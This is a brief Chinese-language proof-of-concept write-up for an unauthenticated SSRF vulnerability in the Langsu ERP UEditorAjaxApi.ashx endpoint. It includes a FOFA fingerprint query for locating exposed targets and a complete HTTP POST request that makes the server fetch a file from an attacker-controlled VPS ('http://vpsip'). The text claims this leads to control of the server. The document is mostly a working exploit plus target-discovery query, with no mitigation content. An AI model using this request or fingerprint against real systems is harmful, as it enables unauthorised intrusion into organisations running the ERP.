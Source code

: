 # 朗速ERP系统接口UEditorAjaxApi.ashx存在SSRF漏洞

朗速ERP UEditorAjaxApi.ashx 接口存在SSRF漏洞,未经身份验证的远程攻击者可以利用该漏洞在VPS上构造恶意文件，使服务器访问并下载文件到本地，进而控制服务器权限。

## fofa
```javascript
body="/Resource/Scripts/Yw/Yw_Bootstrap.js"
```

## poc
```javascript
POST /Api/UEditor/UEditorAjaxApi.ashx?method=catchimage HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: keep-alive

source[]=http://vpsip
```

![image-20250103185025413](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501031850476.png)